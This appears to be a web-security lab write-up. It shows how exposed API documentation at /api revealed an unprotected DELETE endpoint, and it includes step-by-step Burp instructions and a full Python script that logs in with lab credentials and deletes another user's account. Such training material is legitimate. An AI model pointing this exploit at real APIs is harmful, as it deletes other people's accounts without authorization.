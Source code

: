 ```yaml
---
title: 'API Lab 1'
description: 'Discover how publicly exposed API documentation can lead to unauthorized actions via REST API endpoints.'
---
```



## Exploiting an API endpoint using documentation

<div style="text-align: justify;">
  In this lab, I demonstrated how publicly exposed API documentation can reveal powerful, undocumented functionality—specifically the ability to delete arbitrary users. By analyzing JavaScript and observing API behavior, I discovered that trimming the endpoint `/api/user/wiener` progressively led to `/api`, which returned a full interactive API documentation page.

  This documentation exposed a hidden DELETE endpoint that allowed deletion of any user account. Using it, I deleted the user `carlos` and completed the lab. This highlights the risk of exposing internal API definitions and emphasizes the need for proper access control even on documented endpoints.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How the exploit works
1. Log in as **wiener** using credentials: `wiener:peter`.
2. Trigger an email update via user settings; observe a `PATCH /api/user/wiener` call in HTTP history.
3. Send that request to Repeater and successively trim the path:
   - `/api/user/wiener`
   - `/api/user`
   - `/api` — returns API documentation.
4. Open the documentation in your browser—it's interactive and exposes available HTTP methods.
5. Locate the `DELETE /user/[username]` endpoint.
6. Execute `DELETE /api/user/carlos` via the interactive docs.
7. Confirm the response reports `"User deleted"` and lab completion.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings for self-signed certs (used in labs)
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (must be running)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """
    Ensure Burp Suite is running before sending requests.
    """
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.ConnectionError:
        print("[-] Burp Suite is not running. Please start Burp and try again.")
        sys.exit(1)

def get_csrf_token(session, base_url):
    """
    Retrieve the CSRF token from the login page.
    """
    try:
        res = session.get(base_url + "/login", verify=False, proxies=proxies)
        res.raise_for_status()
        soup = BeautifulSoup(res.text, "html.parser")
        token = soup.find("input", {"name": "csrf"})["value"]
        return token
    except Exception as e:
        print(f"[-] Failed to retrieve CSRF token: {e}")
        sys.exit(1)

def login(session, base_url):
    """
    Log in as 'wiener' using the CSRF token.
    """
    csrf_token = get_csrf_token(session, base_url)
    login_data = {
        "csrf": csrf_token,
        "username": "wiener",
        "password": "peter"
    }

    try:
        res = session.post(base_url + "/login", data=login_data, verify=False, proxies=proxies, allow_redirects=False)
        return res.status_code == 302
    except requests.RequestException as e:
        print(f"[-] Login failed: {e}")
        sys.exit(1)

def delete_user(session, base_url, username="carlos"):
    """
    Delete the target user using the documented API endpoint.
    """
    api_uri = f"/api/user/{username}"
    try:
        res = session.delete(base_url + api_uri, verify=False, proxies=proxies)
        if "User deleted" in res.text:
            return True
        return False
    except requests.RequestException as e:
        print(f"[-] API call failed: {e}")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://target.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    session = requests.Session()

    print("[*] Logging in as 'wiener'...")
    if login(session, url):
        print("[+] Login successful.")
    else:
        print("[-] Login failed.")
        sys.exit(1)

    print("[*] Attempting to delete user 'carlos' via API...")
    if delete_user(session, url):
        print("[+] Exploit successful! User 'carlos' deleted.")
    else:
        print("[-] Exploit failed. User not deleted.")

if __name__ == "__main__":
    main()
```
